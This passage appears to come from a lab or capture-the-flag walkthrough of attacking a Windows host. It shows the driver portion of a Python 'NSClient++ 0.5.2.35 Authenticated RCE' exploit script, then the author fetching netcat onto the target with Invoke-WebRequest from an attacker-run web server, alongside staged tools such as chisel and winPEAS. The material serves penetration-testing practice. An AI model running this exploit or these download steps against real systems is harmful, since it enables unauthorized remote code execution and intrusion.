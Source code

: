 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ba
    printStatus("Error obtaining auth token, is your password correct? Hit error at: "  + endpoint, "bad")
    sys.exit(1)
    
parser = argparse.ArgumentParser("NSClient++ 0.5.2.35 Authenticated RCE")
parser.add_argument('-t', nargs='?', metavar='target', help='Target IP Address.')
parser.add_argument('-P', nargs='?', metavar='port', help='Target Port.')
parser.add_argument('-p', nargs='?', metavar='password', help='NSClient++ Administrative Password.')
parser.add_argument('-c', nargs='?', metavar='command', help='Command to execute on target')
args = parser.parse_args()

if len(sys.argv) < 4:
  parser.print_help()
  sys.exit(1)

base_url = "https://" + args.t + ":" + args.P
printStatus("Targeting base URL " + base_url, "info")
password = args.p
cmd = args.c

s = requests.session()
token = getAuthToken(s)
s.headers.update({ "TOKEN" : token})

randKey = generateName()
enableFeature(s)
configurePayload(s, cmd, randKey)
reloadConfig(s)

token = getAuthToken(s)
s.headers.update({ "TOKEN" : token})

triggerPayload(s, randKey)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Since this seems promising I decided to copy the netcat exectuable for Windows into my working directory. This way I can download it to the target via the Python web server. 


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ cp /usr/share/windows-binaries/nc.exe .
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


To be successful in exploiting the exploit, the target must have a netcat executable. I download this on the target with the following command:  **Invoke-WebRequest -Uri http://10.0.2.15/nc.exe -OutFile nc.exe** while my Python webserver is running in the background of my Kali machine.



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\windows\temp> Invoke-WebRequest -Uri http://10.0.2.15/nc.exe -OutFile nc.exe
PS C:\windows\temp> dir


    Directory: C:\windows\temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         11/9/2021   2:31 PM    8818688 chisel.exe                        
-a---         11/9/2021   3:14 PM      59392 nc.exe                            
-a---         11/9/2021   2:08 PM    1924608 winPEASx64.exe    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~